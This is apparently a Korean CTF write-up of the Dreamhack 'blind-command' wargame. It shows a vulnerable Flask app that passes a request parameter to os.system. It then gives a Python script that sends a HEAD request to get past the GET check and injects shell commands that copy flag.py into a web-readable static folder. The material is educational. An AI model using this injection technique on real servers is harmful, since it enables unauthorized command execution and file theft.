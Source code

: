 ```yaml
---
layout : single
title : "STAGE10. Web Hacking Epilogue"
categories: Security
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


# 드림핵 웹 Web Hacking Epilogue

-  [x] wargame : blind-command

## Wargame : blind-command

blind command injection은 시스템 명령의 수행 결과 값을 알 수 없을 때 사용하는 방법이다. 아래 코드는 문제 파일의 app.py인데, 메소드가 GET이 아닐 경우 cmd 파라미터로 전달된 값을 시스템 명령어로 실행시킨다. 

```python
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/' , methods=['GET'])
def index():
    cmd = request.args.get('cmd', '')
    if not cmd:
        return "?cmd=[cmd]"

    if request.method == 'GET':
        ''
    else:
        os.system(cmd)
    return cmd

app.run(host='0.0.0.0', port=8000)
```

### 풀이 1

1) httpie를 통해 해당 서버에 OPTIONS 메소드로 요청을 보냄

아래 결과와 같이, HEAD, GET, OPTIONS 세 가지 메소드를 사용할 수 있다는 것을 확인할 수 있다

<img src = "/images/wargame/20.png"><br>

2) HEAD 메소드로 우회하여 시도

하였으나 장렬히 실패함. 구글링 결과 burp suite를 사용해서 하는 방법만 나오는데 난 아직 burp suite를 깔지 않았으므로 (+귀찮으므로) 다른 방법을 찾았다 <br>

\*사실 내가 httpie를 잘 다룰줄 아는 것은 아니라 httpie를 다루는 데에서 문제가 발생한 것인 지, httpie로는 불가능한 작업인 것인 지 모르겠다. httpie 연습 많이 할 것 ( + 일정 레벨 이상의 워게임 문제들을 원활하게 해결해나가기 위해서는 burp suite가 필수적이라고 느껴지긴 한다)

### 풀이 2

static이라는 폴더와 flag.txt 파일을 생성하고 flag.py의 내용을 읽어 저장하면 어떨까 싶어 현재 주소에서 flag.py를 cat 한 후, static/flag.txt에 저장하도록 코드를 작성하였다.

```python
import requests

host = "http://host3.dreamhack.games:21943/"
params = {'cmd':'mkdir static; cat flag.py > static/flag.txt'}

req = requests.head(host, params=params)
```

위 코드를 실행 후 /static/flag.txt 로 접근한 결과, 아래와 같이 flag를 얻을 수 있었다

<img src = "/images/wargame/21.png">